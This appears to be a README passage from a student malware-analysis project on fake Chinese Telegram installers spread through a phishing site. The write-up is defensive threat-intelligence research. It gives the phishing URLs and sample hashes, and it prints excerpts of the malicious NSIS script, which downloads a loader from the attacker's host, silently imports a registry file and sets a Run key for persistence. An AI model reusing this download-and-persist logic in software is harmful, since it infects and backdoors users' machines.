


# Dangerous_Telegram
Contributor : [Lei HUANG](https://github.com/hualin999)

Tutors : Mr. [Alexandre DULAUNOY](https://github.com/adulau) & Mr. [Christian STUDER](https://github.com/chrisr3d)

## Project Context

As we all know, there is a firewall called "Great Firewall" in China. The Great Firewall is the combination of legislative actions and technologies enforced by the People's Republic of China to regulate the Internet domestically. Its role in internet censorship in China is to block access to selected foreign websites and to slow down cross-border internet traffic.

The effect includes : limiting access to foreign information sources, blocking foreign internet tools (e.g. Google Search, Facebook, Twitter, Wikipedia, and others) and **Mobile Apps**, and requiring foreign companies to adapt to domestic regulations.

Obviously our subject today is not "Great Firewall", but because of this, people in China cannot use Telegram through official downloads, and therefore Telegram does not release official Chinese installers and language packs. 

This has led to the uncontrolled (without legal constraints) spread of various **Trojans** and **Malware** disguised as phishing links (like official download link/installation package or Chinese installation package) or Chinese community chat files (Especially Telegram downloads chat files by default).

## Project Objective

**The purpose of this project is to analyze some Malware and Trojan samples that are currently spreading widely in the Telegram Chinese community, and to translate the relevant threat intelligence information into a specific analysis model for MISP.**

## Sample Analysis Procedure

The original sample was taken from http://telegram-vip.com, a phishing site disguised as a Chinese version of Telegram :



The home page of the website has links to download the so-called versions, but if you click on the links to download "Telegram for Mac" or "Telegram for Windows", the downloaded file will be a Windows installer named "tsetup.2.1.10.exe". If you click on the link to download Telegram for Android or iPhone, you will be redirected to another page : 



Depending on the link clicked, the results vary :

- Clicking on the iPhone download link will redirect you to the normal Apple App Store : https://apps.apple.com/app/telegram-messenger/id686449807

- Clicking on the Android version will redirect you to another link to download the installer : https://telegrcn.org/download/telegramCN_631.apk

- Clicking on the Mac version download link will redirect you to another link to download the installer : https://telegrcn.org/download/tsetup.2.1.10.dmg

- Clicking on the Windows version is the same as the installation package downloaded from the home page.

Next, for the sake of time, we will first analyze the Windows version of the "installer".

## Malware installation package information

|Filename|SHA256|
|:--------:|:------:|
|telegram_setup.2.1.6.exe|1f09381186a82f070d7beda66f575efdecd92b76217b5a0d9b904c1d64c89fc8|
|telegram_setup.2.1.10.exe|35133a3283381aa503f0d415de3ab8111e2e690bd32ad3dddde1213b51c877ba
|

Both installers use the NSIS ([Nullsoft Scriptable Install System](https://nsis.sourceforge.io/Main_Page)) package, which can be extracted directly with 7-zip to get the restored installation script. 7-zip added automatic decompilation of the NSIS script in 9.33, but removed it in 15.06, so be aware that version must be in between.

The directory structure of the two versions after decompression is as follows : 

```
2.1.6/
├── $PLUGINSDIR                        // NSIS Related Files
│   ├── InstallOptions.dll
│   ├── ioSpecial.ini
│   ├── LangDLL.dll
│   ├── modern-wizard.bmp
│   └── TextReplace.dll
├── C                                  // The file will be copied directly to the corresponding location during installation
│   └── PerfLog
│       ├── AddInProcess.exe           // Backdoor (Loader)
│       └── AddInProcess.exe.config
├── [NSIS].nsi                         // NSIS scripts extracted by 7-zip
├── ns.reg                             // Payload Registry File
├── Telegram.exe                       // Telegram Desktop 2.1.6.0
├── uninst.exe.nsis
└── Updater.exe
```

```
2.1.10/
├── $PLUGINSDIR                        // NSIS Related Files
│   ├── InetLoad.dll
│   ├── InstallOptions.dll
│   ├── ioSpecial.ini
│   ├── LangDLL.dll
│   ├── modern-wizard.bmp
│   ├── System.dll
│   └── TextReplace.dll
├── [NSIS].nsi                         // NSIS scripts extracted by 7-zip
├── Telegram.exe                       // Telegram Desktop 2.1.6.0
├── uninst.exe.nsis
└── Updater.exe
```

Comparing the two versions, we can obviously notice that version 2.1.10 is missing the key backdoor files **C:\PerfLog** and **ns.reg**, 2.1.6 directly packaged these files together, but 2.1.10 changed the way, using the NSIS script to download these two files only during the installation process, which can be seen in the NSIS script. The following is an excerpt from the 2.1.10 NSIS.nsi script with some of the relevant commands : 

```
# Download loader and registry file
InetLoad::load /BANNER "" "Cameron Diaz download in progress, please wait ;)" http://www.telegram-vip.com/index2.php cnPath.exe
InetLoad::load /BANNER "" "Cameron Diaz download in progress, please wait ;)" http://www.telegram-vip.com/index3.php ns.reg
```

```
# Replace 123456 to <ComputerName> from ns.reg then use regedit.exe to import
ReadRegStr $R1 HKLM SYSTEM\CurrentControlSet\Control\ComputerName\ComputerName ComputerName
TextReplace::_FindInFile /NOUNLOAD $INSTDIR\ns.reg 123456 /S=1
TextReplace::_ReplaceInFile /NOUNLOAD $INSTDIR\ns.reg $INSTDIR\ns.reg 123456 $R1 "/S=1 /C=1 /AO=1"
Exec "regedit.exe /s $\"$INSTDIR\ns.reg$\""
```

```
# Move $INSTDIR\cnPath.exe to C:\PerfLog\AddInProcess.exe
StrCpy $R0 $INSTDIR\cnPath.exe
StrCpy $R1 C:\PerfLog\AddInProcess.exe
System::Call "Kernel32::MoveFileA(t R0,t R1)"
```

```
# Setup service registry and run
WriteRegStr HKCU Software\Microsoft\Windows\CurrentVersion\Run telegramCnService C:\PerfLog\AddInProcess.exe
ExecShell "" C:\PerfLog\AddInProcess.exe
```

Understanding the above NSIS script can help us learn how it is infected and how it is persisted.

## Load file AddInProcess.exe

